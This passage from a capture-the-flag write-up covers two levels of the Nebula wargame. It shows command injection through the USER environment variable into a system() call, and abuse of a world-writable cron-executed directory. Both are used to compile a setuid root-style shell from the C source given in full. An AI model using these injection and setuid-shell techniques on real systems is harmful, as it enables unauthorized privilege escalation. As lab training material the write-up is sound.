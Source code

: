 ```bash
level02@nebula:/home/flag02$ USER="bob; id;#" && ./flag02
about to call system("/bin/echo bob; id;# is cool")
bob
uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)

level02@nebula:/home/flag02$ USER="bob; gcc /var/tmp/shell.c -o /var/tmp/flag02; chmod 4777 /var/tmp/flag02;#" && ./flag02
about to call system("/bin/echo bob; gcc /var/tmp/shell.c -o /var/tmp/flag02; chmod 4777 /var/tmp/flag02;# is cool")
bob

level02@nebula:/home/flag02$ /var/tmp/flag02
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## level03

[Level03's Description](https://exploit-exercises.com/nebula/level03/):
{% blockquote %}
Check the home directory of flag03 and take note of the files there.
There is a crontab that is called every couple of minutes.
{% endblockquote %}

Logging in as `level03`, we find a directory and a `sh` script:

```bash
level03@nebula:~$ cd ~flag03
level03@nebula:/home/flag03$ ls -lh
total 512
drwxrwxrwx 2 flag03 flag03  3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03 98 2011-11-20 21:22 writable.sh

level03@nebula:/home/flag03$ cat writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

With the mention of a cronjob, I assumed the `writable.sh` script was being run. From the source of the script we can see that everything in `/home/flag03/writable.d/` will have a ulimit set so that processes don’t take more than 5 seconds, and be executed using `bash -x`. Once done, the file is removed. Easy to exploit.

So, to solve level03:

```bash
level03@nebula:/home/flag03$ vim /var/tmp/flag03.sh
level03@nebula:/home/flag03$ cat /var/tmp/flag03.sh
#!/bin/sh
gcc /var/tmp/shell.c -o /var/tmp/flag03
chmod 4777 /var/tmp/flag03

level03@nebula:/home/flag03$ cat /var/tmp/shell.c
#include<stdio.h>

int main(void) {
    setresuid(geteuid(), geteuid(), geteuid());
    system("/bin/sh");
    return 0;
}

level03@nebula:/home/flag03$ cp /var/tmp/flag03.sh /home/flag03/writable.d/
```